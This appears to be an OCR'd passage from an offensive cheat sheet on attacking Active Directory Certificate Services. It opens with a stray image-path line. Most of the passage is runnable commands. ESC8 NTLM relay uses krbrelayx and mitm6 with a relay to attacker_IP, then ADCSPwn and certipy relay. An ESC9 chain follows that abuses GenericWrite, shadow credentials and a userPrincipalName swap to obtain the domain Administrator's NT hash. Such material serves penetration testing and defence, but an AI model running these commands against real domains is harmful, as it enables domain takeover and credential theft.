 # Setup the relay
sudo krbrelayx.py --target http://CA/certsrv -ip attacker_IP --victim target.domain.local --adcs --template Machine

# Run mitm6
sudo mitm6 --domain domain.local --host-allowlist target.domain.local --relay CA.domain.local -v
Version 4: ADCSPwn - Require WebClient service running on the domain controller. By default this service is not installed.

https://github.com/bats3c/ADCSPwn
adcspwn.exe --adcs <cs server> --port [local port] --remote [computer]
adcspwn.exe --adcs cs.pwnlab.local
adcspwn.exe --adcs cs.pwnlab.local --remote dc.pwnlab.local --port 9001
adcspwn.exe --adcs cs.pwnlab.local --remote dc.pwnlab.local --output C:\Temp\cert_b64.txt
adcspwn.exe --adcs cs.pwnlab.local --remote dc.pwnlab.local --username pwnlab.local\mranderson --password The0nly0ne! --dc dc.pwnlab.local

# ADCSPwn arguments
adcs            -       This is the address of the AD CS server which authentication will be relayed to.
secure          -       Use HTTPS with the certificate service.
port            -       The port ADCSPwn will listen on.
remote          -       Remote machine to trigger authentication from.
username        -       Username for non-domain context.
password        -       Password for non-domain context.
dc              -       Domain controller to query for Certificate Templates (LDAP).
unc             -       Set custom UNC callback path for EfsRpcOpenFileRaw (Petitpotam) .
output          -       Output path to store base64 generated crt.
Version 5: Certipy ESC8

certipy relay -ca 172.16.19.100
ESC9 - No Security Extension
Requirements:

StrongCertificateBindingEnforcement set to 1 (default) or 0
Certificate contains the CT_FLAG_NO_SECURITY_EXTENSION flag in the msPKI-Enrollment-Flag value
Certificate specifies Any Client authentication EKU
GenericWrite over any account A to compromise any account B
Scenario

John@corp.local has GenericWrite over Jane@corp.local, and we want to compromise Administrator@corp.local. Jane@corp.local is allowed to enroll in the certificate template ESC9 that specifies the CT_FLAG_NO_SECURITY_EXTENSION flag in the msPKI-Enrollment-Flag value.

Obtain the hash of Jane with Shadow Credentials (using our GenericWrite)
certipy shadow auto -username John@corp.local -p Passw0rd -account Jane
Change the userPrincipalName of Jane to be Administrator. ⚠️ leave the @corp.local part
certipy account update -username John@corp.local -password Passw0rd -user Jane -upn Administrator
Request the vulnerable certificate template ESC9 from Jane's account.
certipy req -username jane@corp.local -hashes ... -ca corp-DC-CA -template ESC9
# userPrincipalName in the certificate is Administrator 
# the issued certificate contains no "object SID"
Restore userPrincipalName of Jane to Jane@corp.local.
certipy account update -username John@corp.local -password Passw0rd -user Jane@corp.local
Authenticate with the certificate and receive the NT hash of the Administrator@corp.local user.
certipy auth -pfx administrator.pfx -domain corp.local